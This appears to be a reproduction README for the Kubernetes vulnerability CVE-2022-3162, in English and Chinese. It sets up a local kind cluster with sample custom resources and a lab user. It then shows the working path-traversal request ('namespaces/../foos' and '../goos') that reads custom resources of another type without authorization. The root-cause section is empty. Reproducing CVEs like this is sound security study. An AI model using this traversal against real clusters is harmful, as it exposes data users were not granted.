 # CVE-2022-3162

## Experiment Environment

linux/amd64

kind  v0.14.0

kubectl  v1.24.4

kubernetes  v1.24.0

## Description

​	A security issue was discovered in Kubernetes where users authorized to list or watch one type of namespaced custom resource cluster-wide can read custom resources of a different type in the same API group without authorization.

​	当用户被授权去list或者watch一类命名的资源对象时，能够不通过授权获取同组的另一类对象。



## INSTALL & Configuration

```sh
```

## Pocs

```sh
kubectl apply -f foos-crd.yaml
kubectl apply -f goos-crd.yaml
kuebctl apply -f foo-cr.yaml
kuebctl apply -f goo-cr.yaml
```

```sh
kubectl get --raw "/apis/samplecontroller.k8s.io/v1alpha1/namespaces/../foos"
```

```
/registry/group/kind/{namespaces}/{name}
```

### create new user

```sh
openssl genrsa -out cve3162.key 2048
openssl req -new -key cve3162.key -out cve3162.csr -subj "/CN=cve3162/O=cves"

// 找到kubernetes集群的CA
openssl x509 -req -in cve3162.csr -CA /etc/kubernetes/pki/ca.crt -CAkey /etc/kubernetes/pki/ca.key -CAcreateserial -out cve3162.crt -days 500
```

```sh
kubectl config set-credentials cve3162 --client-certificate=cve3162.crt  --client-key=cve3162.key

kubectl config set-context cve3162-context --cluster=kind --namespace=kube-system --user=cve3162
```

```sh
kubectl get pods --context=cve3162-context
```

### apply ClusterRole and ClusterRoleBinding

```sh
kubectl apply -f ClusterRole.yaml
kubectl apply -f ClusterRoleBinding.yaml
```

### result

```sh
kubectl get --raw "/apis/samplecontroller.k8s.io/v1alpha1/namespaces/../foos" --context=cve3162-context
```

```sh
kubectl get --raw "/apis/samplecontroller.k8s.io/v1alpha1/namespaces/../goos" --context=cve3162-context
```

## Vulnerability Details & Patch

### Root Cause

## Reference

https://github.com/kubernetes/kubernetes/issues/113756



